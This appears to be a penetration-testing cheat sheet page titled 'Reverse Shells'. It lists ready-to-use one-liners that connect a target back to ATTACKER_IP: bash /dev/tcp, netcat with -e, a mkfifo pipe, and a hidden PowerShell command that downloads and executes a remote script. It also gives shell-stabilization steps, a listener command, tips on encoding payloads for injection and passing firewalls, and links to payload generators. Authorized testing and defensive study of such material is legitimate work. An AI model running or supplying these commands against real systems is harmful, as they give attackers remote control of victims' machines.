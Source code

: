 ```yaml
---
title: 'Reverse Shells'
weight: 2
draft: false
---
```

## 🧠 Overview
A reverse shell allows an attacker to connect back to their machine and gain remote access to a target system. This section includes payloads, tools, one-liners, and techniques for both Linux and Windows environments.

---

## 🔌 Basic Reverse Shells

### 🐧 Linux

```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```

```bash
nc -e /bin/sh ATTACKER_IP PORT
```

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP PORT > /tmp/f
```

### 🪟 Windows

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/shell.ps1')"
```

```cmd
nc.exe -e cmd.exe ATTACKER_IP PORT
```

---

## 🛠️ Tools

- [Ncat (from Nmap)](https://nmap.org/ncat/) – Advanced netcat replacement.
- [MSFvenom](https://docs.rapid7.com/metasploit/msfvenom/) – Payload generator for Windows/Linux shells.
- [socat](http://www.dest-unreach.org/socat/) – Flexible tool for socket communication and reverse shells.
- [chisel](https://github.com/jpillora/chisel) – TCP/UDP tunneling over HTTP, often used for reverse shells via HTTP.

---

## 📦 Payload Generators

- [Reverse Shell Generator](https://www.revshells.com/)
- [PayloadsAllTheThings – Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet)

---

## 🔁 Shell Stabilization (Linux)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
CTRL-Z
stty raw -echo; fg
```

```bash
export TERM=xterm
```

---

## 🧪 Tips

- Always set up a listener before triggering a reverse shell:

```bash
nc -lvnp PORT
```

- Check firewall rules — use high-numbered ports like 4444, 9001, 1337.
- Encode payloads for web or command injection (e.g., URL-encode or Base64).
- Use `tcpdump` or `wireshark` to monitor connections if shell doesn’t arrive.

---

## 📚 References

- [GTFOBins – reverse shell](https://gtfobins.github.io)
- [HackTricks – reverse shell](https://book.hacktricks.xyz/pentesting-web/reverse-shell-cheatsheet)

